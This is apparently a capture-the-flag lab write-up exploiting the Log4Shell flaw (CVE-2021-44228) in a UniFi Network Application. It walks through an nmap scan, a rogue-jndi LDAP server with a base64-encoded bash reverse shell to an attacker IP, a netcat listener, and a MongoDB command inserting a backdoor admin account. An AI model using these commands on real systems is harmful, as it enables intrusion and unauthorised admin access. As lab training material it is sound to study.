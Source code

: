 #Linux #CVE-2021-44228


**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.18.96
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 22/tcp   open  OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
* 6789/tcp open  ibm-db2-admin?
* 8080/tcp open  http-proxy
* 8443/tcp open  ssl/nagios-nsca Nagios NSCA
* 8843/tcp open  ssl/unknown
* 8880/tcp open  cddbp-alt?

We'll follow procedure described in the following article:

https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Our action plan is to get a reverse shell so we can interact with the underlying Linux operating system

As outlined in the article, the vulnerability is in the **REMEMBER** values (which is the **PAYLOAD**). The picture below shows the POST request:

![image](https://user-images.githubusercontent.com/99097743/170084790-6d97d79b-23e0-4195-8b0a-2659b657123d.png)


```sh
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
 ```
 
 ![image](https://user-images.githubusercontent.com/99097743/170054746-daa8621e-f227-45a2-bd18-b3a3078ac94c.png)
 
It seems that Maven (MVN) is not installed in our localhost, we need to install it first.  
  
```sh
sudo apt-get install maven 

```
  
Reverse shell command: 

```sh
echo 'bash -c bash -i >&/dev/tcp/10.10.16.26/4444 0>&1' | base64
#This command will generate a base64 encrypted string

#To start the rogue-jndi LDAP server up
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMjYvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.26"

# Make sure to change the directory, base64 hash, and IP address --> VPN IP
```
![image](https://user-images.githubusercontent.com/99097743/170090287-67ec5abc-f682-4f88-9d11-3f771d3540ef.png)

#Start listening on a new terminal


```sh
sudo nc -nvlp 4444
```

We can now include payload in the REMEMBER value (see the highlighted section in the picture below) and trigger the reverse shell. In other words, the UniFi Network Application will grab the payload from rogue-jndi and then we'll get a callback in the listener terminal:

![image](https://user-images.githubusercontent.com/99097743/170090226-80b9baf1-eecb-4ab5-b48c-999f7f3cc84c.png)

Nice, we are connected!

![image](https://user-images.githubusercontent.com/99097743/170091118-34190c19-c520-427d-a778-705da14fa00d.png)

Python is not installed so please try the following command to improve the shell

```sh
script /dev/null -c bash

```
I followed the article for the next steps. We can either:


* Extract admin hashes and crack them (requires significant computing power -- I gave up on this)
or
* Add a new admin account  

First, we need to generate a password hash for the admin account:

```sh
mkpasswd -m sha-512 password
  ```
  
Next, we need to enter the new admin command (db.admin.insert) in MongoDB via our reverse shell (username = aaa)

```sh
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "aaa@localhost.local", "last_site_name" : "default", "name" : "aaa", "time_created" : NumberLong(100019800), "x_shadow" : "$6$piDZ3bwwj/g4psku$MSgskX71AEuwT/sASoYqbZ03ZiRtxtTl/OROc8mBDP4QKwAeB1VGBtIlJdEs5q7rDFpHq7dkM2dAZk/KEhRgx." })'
  ```
Once the new admin account is inserted in the MongoDB, we are ready to login to the UniFi Network Account (username: aaa, pasword: password)
Unfortunately the website did not work so I captured the flag from the official walkthorough document :)
  
![image](https://user-images.githubusercontent.com/99097743/170099143-838be26d-0d3a-479c-a619-2c1aef01ceec.png)
